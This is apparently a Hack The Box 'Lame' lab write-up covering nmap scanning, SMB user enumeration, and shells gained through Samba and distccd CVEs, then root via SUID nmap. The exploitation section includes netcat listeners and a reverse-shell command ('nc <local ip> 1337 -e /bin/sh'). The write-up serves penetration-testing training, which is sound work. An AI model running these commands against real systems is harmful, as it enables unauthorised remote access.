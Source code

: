 # HTB Lame Writeup

#CVE-2004-2687 #CVE-2007-2447 #CVE-2011-2523 #vsFTPd #smbd #nmap

#### Reconnaissance

`nmap -sC -sV -p- -Pn 10.10.10.3`

```
Nmap scan report for 10.10.10.3
Host is up (0.079s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-11-07T23:38:51-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h26m42s, deviation: 3h32m10s, median: -3m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.67 seconds
```

#### Enumeration

###### Port 22 - File Transfer Protocol
- Anonymous login using:
	- ftp : ftp
	- anonymous : anonymous
	- anonymous :
- vsFTPd 2.3.4
	- CVE-2011-2523: Backdoor command execution vulnerability
	- opens shell on port 6200/tcp
	- Exploit was not successful

##### Port 139, 445 - Server Message Block
- Null Session
	 `rpcclient 10.10.10.3 -U '' -N`

```
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
rpcclient $> enumdomgroups
rpcclient $> enumdomgroup
command not found: enumdomgroup
rpcclient $> enumdomusers
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
```

- Samba smbd 3.0.20
	- CVE-2007-2447 - Arbitrary Code Execution
		- [Exploit Github Repository](https://github.com/amriunix/CVE-2007-2447)

##### Port 3632 - DistCC Daemon
- Distcc is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed.
- CVE-2004-2687
	- [Exploit Github Repository](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

#### Exploitation

##### Exploitation #1: CVE-2007-2447
`kali@kali:/$ nc -lvnp 3333`

`kali@kali:/$ ./usermap_script.py 10.10.10.3 139 10.10.14.13 3333`

<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.36.35 PM.png" width=50% height=50%>
<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.37.01 PM.png" width=50% height=50%>

##### Exploitation #2: CVE-2004-2687

`kali@kali:/$ nc -lvnp 1337`

`kali@kali:/$ ./disccd_exploit.py -t <victim ip> -p 3632 -c "nc <local ip> 1337 -e /bin/sh"`

<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.50.26 PM.png" width=50% height=50%>
<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.51.21 PM.png" width=50% height=50%>

##### Privilege Escalation w/ Exploitation #2

Important SUID files:
`-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap`
- nmap version 4.53
- The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands with root privileges due to owner being root
- [GTFOBins]( https://gtfobins.github.io/gtfobins/nmap/)

<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 11.20.34 PM.png" width=50% height=50%>




